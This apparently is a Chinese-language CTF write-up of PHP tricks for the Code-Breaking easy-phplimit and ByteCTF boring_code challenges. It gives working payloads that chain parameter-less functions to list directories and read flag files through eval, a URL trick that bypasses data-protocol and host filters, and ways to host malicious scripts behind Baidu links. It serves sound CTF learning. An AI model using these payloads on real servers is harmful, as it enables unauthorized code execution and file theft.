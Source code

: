 # 函数妙用

## code-breaking_easy-phplimit函数的巧妙搭配

### 参考文章

- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars
- https://xz.aliyun.com/t/6316

### Exp

```php
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```

## ByteCTF boring_code

### 参考文章

- http://www.guildhab.top/?p=1077

- https://xz.aliyun.com/t/6316

### 分析

源码

```php
<?php
function is_valid_url($url) {
    if (filter_var($url, FILTER_VALIDATE_URL)) {
        if (preg_match('/data:\/\//i', $url)) {
            return false;
        }
        return true;
    }
    return false;
}

if (isset($_POST['url'])){
    $url = $_POST['url'];
    if (is_valid_url($url)) {
        $r = parse_url($url);
        if (preg_match('/baidu\.com$/', $r['host'])) {
            $code = file_get_contents($url);
            if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        } else {
            echo "error: host not allowed";
        }
    } else {
        echo "error: invalid url";
    }
}else{
    highlight_file(__FILE__);
}
```

1.第一步

第一步需要绕过`preg_match`的检测，网上见到的payload都是通过购买域名，url跳转等方法进行绕过。其实可以通过代码绕过。

**我的方法**

```
compress.zlib://data:@baidu.com/baidu.com,phpinfo()
```

`compress.zlib`绕过data协议的检测，`@`使`data:`被解释为用户名和密码，`baidu.com/baidu.com`中只要包含`/`就会被解释为合法的`media-type`

![](../images/19-9-27_PHP_函数妙用_bytectf_1.png)

**其他方法**

- 购买一个 xxxxbaidu.com 的域名

- 百度网盘链接

  **这种方法的思路是将恶意代码上传到百度网盘 , 然后通过百度网盘的下载链接来绕过 baidu.com 的主机名限制 .**

  1. **将一个恶意脚本上传到百度网盘( 这里以 phpinfo() 为例 )**
  
     ![](../images/19-9-27_PHP_函数妙用_bytectf_3.png)
  
  2. **通过开发者工具( F12 ) , 在 network 选项卡中可以找到目标文件的链接**
  
     ![](../images/19-9-27_PHP_函数妙用_bytectf_2.png)
  
- 百度贴吧（https://www.4xseo.com/marketing/1280/

- 百度爬虫

  其原理大概就是 : **百度的搜索引擎爬虫会爬到你的个人站点 , 当你在百度上点击自己站点时 , 并不是直接访问 . 而是利用百度的重定向机制 , 将你的网址转换成`http://www.baidu.com/link?url=xxxxxxxxxxxxxxx` , 通过这个链接可以绕过第一层防御并且拿到你站点上的恶意脚本 .**

2.第二步

我们要获取`.`，可以通过获取`.`的ascii码，然后通过`chr`函数得到。写了个脚本：

```php
<?php
$functions=get_defined_functions()['internal'];

function getFucntionParameter1($func) {
    $ReflectionFunc = new \ReflectionFunction($func);
    $nums=$ReflectionFunc->getNumberOfRequiredParameters();
    if ($nums===1){
    	echo $func."\n";
    	#@print_r($func());
    	#echo "\n#####\n";
    }
}



foreach($functions as $vul){
	if(preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log|readline/i', $vul)){

	}else{
		getFucntionParameter1($vul);
	}
}
```

主要使用了反射检测函数的参数。

**payload**

- `crypt`函数的返回值最后一位可能为`.`

  ```php
  if(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))readfile(end(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
  ```

- `localeconv`函数

  ```php
  echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
  ```

- `phpversion`函数，通过数学函数变化获取数字`46`

  ```php
  ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))
  ```

- `spl_autoload_extensions`函数

  ```php
  chr(ord(spl_autoload_extensions()))
  ```


